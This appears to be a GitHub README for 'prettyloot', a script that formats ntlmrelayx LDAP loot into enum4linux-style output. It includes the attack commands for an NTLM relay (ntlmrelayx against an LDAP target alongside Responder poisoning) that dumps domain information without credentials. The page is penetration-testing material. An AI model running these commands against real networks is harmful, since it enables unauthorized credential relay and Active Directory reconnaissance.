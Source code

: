 # prettyloot

Convert the loot directory of ntlmrelayx into an enum4linux like output after you dump the domain info using LDAP !

![image](https://user-images.githubusercontent.com/5891788/73091230-4afb5780-3eda-11ea-913d-20f0f0f0a561.png)

### Dumping domain info using ntlmrelayx without an account

```
# screen 1 => ntlmrelayx.py -t ldap://172.16.60.205 --no-da --no-acl -l /tmp/loot
# screen 2 => responder -I eth0
```

![image](https://user-images.githubusercontent.com/5891788/73091683-3e2b3380-3edb-11ea-84d7-fefb1f605d52.png)

Credits to [@ditrizna](https://twitter.com/ditrizna/status/1103964505510416384)

### Usage

```
python3 ntlmrelayx-prettyloot.py /tmp/loot
```

